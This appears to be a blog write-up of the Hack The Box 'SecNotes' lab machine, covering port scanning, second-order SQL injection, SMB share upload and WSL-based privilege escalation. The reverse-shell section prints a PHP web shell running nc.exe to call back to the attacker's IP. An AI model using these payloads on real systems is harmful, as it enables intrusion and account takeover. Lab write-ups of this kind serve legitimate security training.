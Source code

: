 ```yaml
---
layout: post
title: Hack The Box - SecNotes
categories: hack-the-box
tags: [Windows, Linux, Web, SQLI, RCE, smb, Active Directory]
image: /hackthebox/secnotes/0.png
---
```

<hr>
### Quick Summary
#### Hey guys Today SecNotes retired. SecNotes was a very nice box and I really liked that it mixed between windows and linux , and that's because it was a windows box and it had windows subsystem for linux (WSL) installed.It was relatively easy. It's ip is 10.10.10.97 so let's jump right in.
![](/images/hackthebox/secnotes/0.png)
<hr>
### Nmap
#### We will start with scanning open ports and services with nmap like we always do so `nmap -sV -sT secnotes.htb`
![](/images/hackthebox/secnotes/1.png)
#### And we see http on port 80 and microsoft-ds on 445 which is smb actually.
#### So let's look at what's there on http
<br>
### HTTP
![](/images/hackthebox/secnotes/2.png)
#### A regular login page and there is an option to sign up , So let's sign up and see what's in there.
![](/images/hackthebox/secnotes/3.png)
![](/images/hackthebox/secnotes/4.png)
#### After we login we see this regular page : "Viewing Secure Notes for *Username*" , and there are some options like creating a note , changing password , sign out and contact. Of course we will do regular enumeration like checking for directories ,checking web vulnerabilities and stuff like that but i will just jump into the thing.
<br>
<hr>
### SQLI
#### If we tried to do sql injection in the registration form , it will work after we login (second order sqli). A simple payload like `OR 1 OR` :
![](/images/hackthebox/secnotes/5.png)
![](/images/hackthebox/secnotes/6.png)
#### And after we login we see some notes , most importantly "new site" :
![](/images/hackthebox/secnotes/7.png)
#### We got smb creds , so the next step is to login with smbclient
<br>
<hr>
### New Site
#### We will login with smbclient :
`smbclient //secnotes.htb/new-site -U "tyler"`
#### Then we will look at the contents of that share with `ls`
```
smb: \> ls
  .                                   D        0  Fri Jan 18 15:25:52 2019
  ..                                  D        0  Fri Jan 18 15:25:52 2019
  iisstart.htm                        A      696  Thu Jun 21 17:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 17:26:03 2018
  Microsoft                           D        0  Fri Jan 18 15:25:52 2019

```
#### We see stuff that is related to an http server , but that's not the server on port 80 , because it had more than just a png picture and html page. If we do another full port scan we will find an http server on port 8808.
#### you can do a full scan by specifying the port range like this `-p-` I already know it's port 8808 so i'm going to scan that port
![](/images/hackthebox/secnotes/8.png)
#### Now if we go to that port we will see a default page :
![](/images/hackthebox/secnotes/9.png)
#### And by looking at the source we see the png image we saw earlier on the smb share.
![](/images/hackthebox/secnotes/10.png)
#### So we can upload our shell to that server through smb then easily get a reverse shell.
<br>
<hr>
### Reverse shell and User
#### We will create a simple php file that executes nc.exe and connects back to us :
```
<?php
system('nc.exe -e cmd.exe 10.10.xx.xx 1337')
?>
```
#### Then we will put it on the server : from smb shell we do `put rev.php` we also need nc.exe . you can get it from [here](https://eternallybored.org/misc/netcat/) then we will do `put nc.exe`
#### Now when we visit secnotes.htb:8808/rev.php our listener should get a callback , and we got a rev shell !
![](/images/hackthebox/secnotes/11.png)
<hr>
### WSL
#### Let's take a look at the admin's Desktop
![](/images/hackthebox/secnotes/12.png)
#### There are some interesting stuff , but `bash.lnk` that's weird because we are on a windows machine , so windows subsystem for linux is installed on this machine. Let's find where is bash.exe
#### We will `cd /windows` then we will do `dir *.exe /b/s | findstr bash` and this will list recursively all the exe files then we will just pick the line that has bash in it , `findstr` is like `grep` in linux
![](/images/hackthebox/secnotes/13.png)
#### And we got the path , let's `cd` to it and execute bash.exe
![](/images/hackthebox/secnotes/14.png)
#### We will get a stable shell with python pty , We see that we are root on this subsystem. if we list the files in `/root` directory we don't see too much files , but we see `.bash_history` which is a very interesting thing to look at if you are enumerating a linux box so let's view that.
![](/images/hackthebox/secnotes/15.png)
<hr>
### Root
#### There's an smbclient command with the administrator creds, we will simply use [impacket](https://github.com/SecureAuthCorp/impacket)'s `psexec.py` to get a root shell , like we did in [Active](/hack-the-box/active/) 
`./psexec.py administrator@secnotes.htb`
![](/images/hackthebox/secnotes/16.png)
#### And we owned root!
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### previous Hack The Box write-up : [Hack The Box - Oz](/hack-the-box/oz/)
#### next Hack The Box write-up : [Hack The Box - Dab](/hack-the-box/dab/)
<hr>
